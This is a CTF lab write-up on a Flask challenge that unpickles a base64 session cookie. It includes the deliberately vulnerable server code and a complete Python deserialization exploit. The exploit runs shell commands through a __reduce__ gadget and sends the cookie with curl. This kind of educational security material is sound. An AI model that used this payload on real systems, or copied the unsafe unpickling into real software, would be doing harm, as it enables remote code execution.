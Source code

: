 # Simple Web 0x16(Lab - Pickle)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8600/
Note: open a brand new window that haven't login `http://h4ck3r.quest`

## Background
[0x15.5(Pickle)](/IcoQql7UQiegLv8KtK2wOw)

## Source code
:::spoiler code
```pyton=
from flask import Flask, request, make_response, redirect, send_file
import base64
import pickle

app = Flask(__name__)


@app.route("/sauce")
def sauce():
    return send_file(__file__, mimetype="text/plain")


@app.route("/")
def main():
    session = request.cookies.get("session")
    if session == None:
        return '<form action="/login" method="POST">' +\
            '<p>Name: <input name="name" type="text"></p>' +\
            '<p>Age: <input name="age" type="number"></p>' +\
            '<button>Submit</button></form><hr><a href="/sauce">Source code</a>'

    else:
        user = pickle.loads(base64.b64decode(session))
        return f'<p>Name: {user["name"]}</p><p>Age: {user["age"]}</p>'


@app.route("/login", methods=['POST'])
def login():
    user = base64.b64encode(pickle.dumps({
        "name": request.form.get('name'),
        "age": int(request.form.get('age'))
    }))
    resp = make_response(redirect('/'))
    resp.set_cookie("session", user)
    return resp
```
:::
### Description & Analyze
In main function, it'll request session and parse it by `base64` then deserialize it.
If session is none, you can enter your name and age then it'll serialize the data and transfer by base64.
For example: name=123, age=123
The Cookie: session=`gASVGgAAAAAAAAB9lCiMBG5hbWWUjAMxMjOUjANhZ2WUS3t1Lg==`
```python!
>>> pickle.loads(base64.b64decode('gASVGgAAAAAAAAB9lCiMBG5hbWWUjAMxMjOUjANhZ2WUS3t1Lg=='))
{'name': '123', 'age': 123}
```

## Exploit
1. Construct exploit function
Note that the format must be `{'name': '', 'age': ''}`
2. Payload
    ```python!
    class exploit(object):
        def __reduce__(self):
            return (__import__('subprocess').getoutput, ('ls',))

    serialized = pickle.dumps({
            "name": '123',
            "age": exploit()
            })
    ```
    Note that, must not use `os.system` in this situation. 'Cause in addition to the result of `os.system('{command}')`, it'll return exit status code.
    > On Unix, the return value is the exit status of the process encoded in the format specified for wait(). Note that POSIX does not specify the meaning of the return value of the C system() function, so the return value of the Python function is system-dependent.

    So that if we use `os.system` as payload directly the output will not be render correctly.
    * For instance:
        ```python!
        class exploit(object):
        def __reduce__(self):
            return (os.system, ('ls',))


        serialized = pickle.dumps({
                "name": '123',
                "age": exploit()
                })
        optim_s = base64.b64encode(serialized)
        print(pickle.loads(base64.b64decode(optim_s)))
        ```
        ```bash!
        $ python pickle_exp.py
        exploit.py  pickle_exp.py  server_app.py
        {'name': '123', 'age': 0}
        ```
        or
        You can execute it in wsl directly.
        ![](https://i.imgur.com/7XrSWl6.png)
    So, you can use `subprocess.getoutput` to fetch the outcome without exit code
    ![](https://i.imgur.com/T8kvBel.png)
3. Whole exploit
    ```python=
    import pickle
    import os
    import pickletools
    import base64

    class exploit(object):
        def __reduce__(self):
            return (__import__('subprocess').getoutput, ('ls -al /',))


    serialized = pickle.dumps({
            "name": '123',
            "age": exploit()
            })
    optim_s = pickletools.optimize(serialized)

    cookie = base64.b64encode(optim_s).decode()

    os.system(f"curl http://h4ck3r.quest:8600/ --cookie 'session={cookie}'")
    ```

## Result
![](https://i.imgur.com/UoFhBVM.png)
